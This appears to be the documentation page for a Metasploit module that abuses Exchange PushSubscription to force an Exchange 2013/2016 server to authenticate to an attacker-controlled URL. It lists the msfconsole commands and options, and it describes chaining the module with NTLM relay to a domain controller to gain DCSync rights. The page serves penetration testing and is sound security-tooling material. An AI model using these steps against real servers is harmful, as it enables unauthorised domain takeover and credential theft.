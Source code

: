 ## Vulnerable Application

  * Microsoft Exchange 2013 and 2016
  * Tested on Exchange 2016
  * Usage:
    * Download and install Exchange Server within a Windows domain
    * Setup a mailbox with a domain user
    * Run the module
    * Relay the NTLM authentication to the DC

## Verification Steps

  Example steps:

  1. Start msfconsole
  2. Do: ```use auxiliary/scanner/http/exchange_web_server_pushsubscription```
  3. Do: ```set attacker_url <url>```
  4. Do: ```set rport <target_port>```
  5. Do: ```set rhost <target_IP>```
  6. Do: ```set domain <domain_name>```
  7. Do: ```set password <user_pass>```
  8. Do: ```set username <user_pass>```
  9. Do: ```run```

## Options

### The ATTACKER_URL option

  This option should contain a URL under the attacker's control. This is where the Exchange will try to authenticate.

### The PASSWORD option
  This can be either the password or the NTLM hash of any domain user with a mailbox configured on Exchange.

## Scenarios

  This module can be used to make a request to the Exchange server and force it to authenticate to a URL under our control. 
  An example scenario is that when this module is combined with an NTLM relay attack, if the Exchange server has the necessary permissions it is possible to grant us DCSync rights.
